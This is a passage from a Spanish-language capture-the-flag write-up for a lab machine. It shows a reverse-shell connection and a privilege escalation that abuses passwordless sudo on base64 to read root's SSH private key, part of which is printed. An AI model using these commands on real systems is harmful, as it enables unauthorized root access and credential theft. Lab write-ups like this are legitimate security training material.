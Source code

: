 > Nota: Se debe eliminar la barra invertida `\` dentro de las llaves `{\{`.
{: .prompt-warning }

![](assets/img/dockerlabs-writeup-verdejo/verdejo2_7.png)

```terminal
	... connect to [192.168.0.171] from (UNKNOWN) [192.168.0.171] 45380

verde@kali:~$ id
uid=1000(verde) gid=1000(verde) groups=1000(verde)
```

---
## Privilege Escalation

```terminal
verde@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
verde:x:1000:1000:verde,,,:/home/verde:/bin/bash
```

El usuario `verde` tiene acceso para ejecutar el comando `/usr/bin/base64` como `root` sin necesidad de contraseña.

```terminal
verde@kali:~$ sudo -l
Matching Defaults entries for verde on kali:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User verde may run the following commands on kali:
    (root) NOPASSWD: /usr/bin/base64
```

Según [GTFOBins](https://gtfobins.github.io/gtfobins/base64/#sudo), se puede usar base64 para decodificar el contenido de un archivo protegido.

```terminal
verde@kali:~$ sudo base64 /root/.ssh/id_rsa | base64 -d              

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABAHul0xZQ
r68d1eRBMAoL1IAAAAEAAAAAEAAAIXAAAAB3NzaC1yc2EAAAADAQABAAACAQDbTQGZZWBB
VRdf31TPoa0wcuFMcqXJhxfX9HqhmcePAyZMxtgChQzYmmzRgkYH6jBTXSnNanTe4A0KME
c/77xWmJzvgvKyjmFmbvSu9sJuYABrP7yiTgiWY752nL4jeX5tXWT3t1XchSfFg50CqSfo
KHXV3Jl/vv/alUFgiKkQj6Bt3KogX4QXibU34xGIc24tnHMvph0jdLrR7BigwDkY2jZKOt
0aa7zBz5R2qwS3gT6cmHcKKHfv3pEljglomNCHhHGnEZjyVYFvSp+DxgOvmn1/pSEzUU4k
P/42fNSeERLcyHdVZvUt9PyPJpDvEQvULkqvicRSZ4VI0WmBrPwWWth4SMFOg+wnEIGvN4
tXtasHzHvdK9Lue2e3YiiFSOOkl0ZjzeYSBFZg3bMvu32SXKrvPjcsDlG1eByfqNV+lp2g
6EiGBk1eyrqb3INWp/KqVHvDObgC8aqg3SGI/6LM3wGdZ5tdEDEtELeHrrPtS/Xhhnq/cf
MNdrV9bsba/z9amMVWhAAlfX8xb4W7rdhgGH20PxaOfCZYQM6qjAClLBWP/rsX/3FGopi7
/fn6sD728szK2Q3nOoco+kBAdovd5vLOJxhbTec/QPPvNNS2zvGYv4liNoRQ9x8otaYdV+
+vvWPUk/oI3IaL15PWuD5o6SWTvpdSRY3OJhDVRR16jQAAB1AAatpK/Zsig5ZccWbZCeCG
bc3wbJWERECc8LV5Z3AyEwlvVxYiWNfqAso3YSx/e79qHy8yI5rSzwn344A/gtABC1zq9I
7+ty41e5mx7+AJON/ia3sBgJMoedBDKisNLEyBks1W1x4ru5Scu+gtRx+5BvoYFz/bEXCh
CnbADs0PxQVBGj9IqJWNnEDzKbYl7hCK/fTs4C+4mCkzLx/P7vtTy0AaLKbgvsYxQ7gQgq
```